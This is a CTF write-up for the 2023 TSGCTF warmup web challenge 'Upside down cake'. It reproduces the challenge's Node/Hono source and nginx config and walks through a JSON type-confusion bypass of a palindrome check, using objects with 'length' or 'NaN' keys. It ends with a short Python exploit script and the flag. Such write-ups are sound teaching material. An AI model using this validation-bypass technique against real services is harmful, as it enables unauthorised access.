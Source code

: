 ```yaml
---
title: 2023 TSGCTF - Upside down cake
date: 2023-11-04 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_TSGCTF
  - Web Exploitation
---
```


## Overview

* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

[upside-down_cake.zip](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_TSGCTF/attached/upside-down_cake.zip)

This is ```main.mjs``` file

```mjs
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```mjs
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only strings are allowed?

## Exploitation

We can post an object, or an array. However, arrays won't work here because they fail to meet the length condition. 

We need a data type that doesn't have a length attribute. An object (also known as a map in C++ or a dictionary in Python) fits this requirement.

### Approach 1

With an object, string.length returns undefined, so the condition string.length < 1000 evaluates to true. Pass!

However, there is a problem with the loop: the index ```string.length - i - 1``` is inaccessible.

Slow down a little bit. since ```string.length - i - 1``` equals ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Approach 2

This is an object, so its attributes are accessible by dot operator, too! It tooks me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```